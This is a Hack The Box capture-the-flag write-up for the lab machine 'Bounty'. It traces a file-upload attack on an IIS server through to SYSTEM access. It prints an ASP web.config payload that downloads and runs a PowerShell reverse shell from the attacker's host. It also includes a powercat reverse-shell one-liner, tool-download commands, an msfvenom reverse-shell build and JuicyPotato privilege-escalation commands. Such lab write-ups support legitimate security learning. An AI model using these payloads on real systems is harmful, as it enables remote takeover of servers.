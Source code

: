 # Bounty Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

nmap -sC -sV -oA bounty 10.10.10.93
80/tcp open  http    Microsoft IIS httpd 7.5

dirb http://10.10.10.93/ -w /usr/share/wordlists/dirb/common.txt
gobuster dir -u http://10.10.10.93 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30 -x aspx,asp

# ${{\color{purple}Initial Foothold}}\ $

### My goubster command allowed me to find the file /transfer.apsx which allows to upload on the server **:white_check_mark:**

gobuster dir -u http://10.10.10.93 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30 -x aspx,asp

![1](https://user-images.githubusercontent.com/123066149/220401946-fe0162ee-df1e-464c-a47e-e15b6e1fbd5e.PNG)

# ${{\color{purple}Exploitation}}\ $ 

![image](https://user-images.githubusercontent.com/123066149/220402400-1e3f9ba5-fe23-4065-81c3-d6977054fde9.png)

### And the /UploadedFiles directory :

![image](https://user-images.githubusercontent.com/123066149/220402804-2b5b447c-7a21-4f48-85c5-606e5ccc6c37.png)

### I decided to bruteforce a valid extension for this file uploade forms :

![image](https://user-images.githubusercontent.com/123066149/220403441-8a066e40-36cd-4899-93ed-620cf87938ad.png)
![image](https://user-images.githubusercontent.com/123066149/220403611-c9f3b6cd-c12f-4c23-b15e-bc6e34d9c8b8.png)

### Load extension.txt i used hacktrycks to find the right extensions according to the type of server :

https://book.hacktricks.xyz/pentesting-web/file-upload

ASP: .asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, .cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, .asa, .cer, .shtml

![image](https://user-images.githubusercontent.com/123066149/220445347-d01adb51-b57f-45f5-b5b2-5ba5dbe30298.png)

### For this attack is important to find the extension that the server will accept. 
### It's with the length of the answer that I find the right extension.

![2](https://user-images.githubusercontent.com/123066149/220445721-12856fa5-e575-4748-a557-29699d739e19.PNG)

### After a little google search there are poc to get to a code execution :

![image](https://user-images.githubusercontent.com/123066149/220451259-7825fcf6-ea3f-4cfa-b8d8-73b249363af7.png)

### I used this code to try a RCE

https://soroush.secproject.com/blog/2019/08/uploading-web-config-for-fun-and-profit-2/

![image](https://user-images.githubusercontent.com/123066149/220451505-f2b8f383-ce2f-4ce5-be05-78bc5fd4bdc9.png)

![image](https://user-images.githubusercontent.com/123066149/220451628-36d207ce-e846-4ae6-8ec3-81c363893f38.png)

### I send the requests via burp 

![3](https://user-images.githubusercontent.com/123066149/220452408-7c694ce9-90d2-4ed8-a37e-c3764b386dc9.PNG)

![4](https://user-images.githubusercontent.com/123066149/220452416-ef897977-6cd4-4e3a-b9c0-8a9224029ef0.PNG)

### The number 15 is there so there is a code execution now I have to change the ASP code :
### I use the code of the web.aspx console and I test the code execution on my computer with the ping command :

cat web.aspx

![image](https://user-images.githubusercontent.com/123066149/220453123-12652682-7e90-40c2-a123-6101beb1cf30.png)

![5](https://user-images.githubusercontent.com/123066149/220457118-3740aaee-d196-4c38-8d9d-094bd45befb3.PNG)

![6](https://user-images.githubusercontent.com/123066149/220457157-ef6027ee-106f-447a-8f5b-6e0bead9e242.PNG)

![image](https://user-images.githubusercontent.com/123066149/220456517-e4e8fe26-5504-4111-acd1-d96f20dfbe39.png)

### Now I have to adapt the payload :

``<%``

``Set s = CreateObject("WScript.Shell")``

``Set cmd = s.Exec ("cmd.exe /c powershell.exe -c IEX(New-Object Net.WebClient).downloadString('http://10.10.16.5:80/Invoke-PowerShellTcp.ps1')")``

``o = cmd.StdOut.Readall()``

``Response.write(o)``

``Response.write(1+2)``

``%>``



Set cmd = s.Exec ("cmd.exe /c powershell.exe -c IEX(New-Object Net.WebClient).downloadString('http://10.10.16.5:80/Invoke-PowerShellTcp.ps1')")

### OR 

Set cmd = s.Exec("cmd.exe /c powershell.exe -c IEX(New-Object Net.WebClient).downloadString('http://10.10.16.5:80/Nishangrev.ps1')")


![image](https://user-images.githubusercontent.com/123066149/220458571-e8616ef9-0daf-4c41-9e7a-8ae8944032b1.png)


![image](https://user-images.githubusercontent.com/123066149/220458631-54bdde53-e959-45c0-90f3-4c6b30c47538.png)


# ${{\color{purple}Privilege Escalation}}\ $

### After a small enumeration it is possible to notice that we have rights :

``SeChangeNotifyPrivilege``

``SeImpersonatePrivilege``

![image](https://user-images.githubusercontent.com/123066149/220458967-5c686876-5ccb-4a0d-b762-ac645dfe55b2.png)


### I decide to redirect the shell to a classical cmd shell because the porwershell shell prevents me from executing binaries 
### For this I use powercat:

IEX (New-Object System.Net.Webclient).DownloadString('http://10.10.16.5:80/powercat.ps1');powercat -c 10.10.16.5 -p 4444 -e cmd.exe

![image](https://user-images.githubusercontent.com/123066149/220460046-bbfdde15-e010-4355-8b1d-ea52562a1bca.png)

### I used FTP/WGET/powershell Invoke-WebRequest : but nothing worked for the download of my tools the only solution that works is the SMB share :

-----------FTP------------------
echo open 10.10.16.5 21> ftp.txt
echo USER offsec>> ftp.txt
echo lab>> ftp.txt
echo bin>> ftp.txt
echo GET Juicy_Potato_x86.exe>> ftp.txt
echo bye>> ft4.txt

ftp -v -n -s:ftp.txt

-----------PowerShell------------------
powershell Invoke-WebRequest -Uri http://10.10.16.5:80/nc.exe -OutFile C:\Users\Public\Downloads\nc.exe

-----------WGET------------------
wget "http://10.10.16.5:80/nc.exe" -outfile "nc.exe"

-----------SMBSERVER-IMPACKET------------------

/usr/bin/impacket-smbserver kali .

![image](https://user-images.githubusercontent.com/123066149/220461207-fef86ba1-5d0b-431d-86f1-add5683ec68d.png)

msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.5 LPORT=4321 -f exe -o exploit.exe

![image](https://user-images.githubusercontent.com/123066149/220463126-0a99d74d-bd0d-4b6b-8fac-d314f06ae337.png)

### I use this command to copy the binaries to the machine :

copy \\10.10.16.5\kali\exploit.exe

copy \\10.10.16.5\kali\JuicyPotato.exe

![image](https://user-images.githubusercontent.com/123066149/220463530-b6a46bda-37d1-49ca-9a77-450d357525ed.png)

JuicyPotato.exe -l 1337 -c "{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}" -t * -p whoami

JuicyPotato.exe -l 1337 -c "{659cdea7-489e-11d9-a9cd-000d56965251}" -p c:\Users\merlin\Desktop\exploit.exe  -t *

![7](https://user-images.githubusercontent.com/123066149/220464952-ac63e66e-e994-4ade-9be4-abfb27857c86.PNG)

![8](https://user-images.githubusercontent.com/123066149/220464961-8763b403-3f63-45e6-bc86-b1b801f9e542.PNG)

# ${{\color{purple}Points of Improvement}}\ $
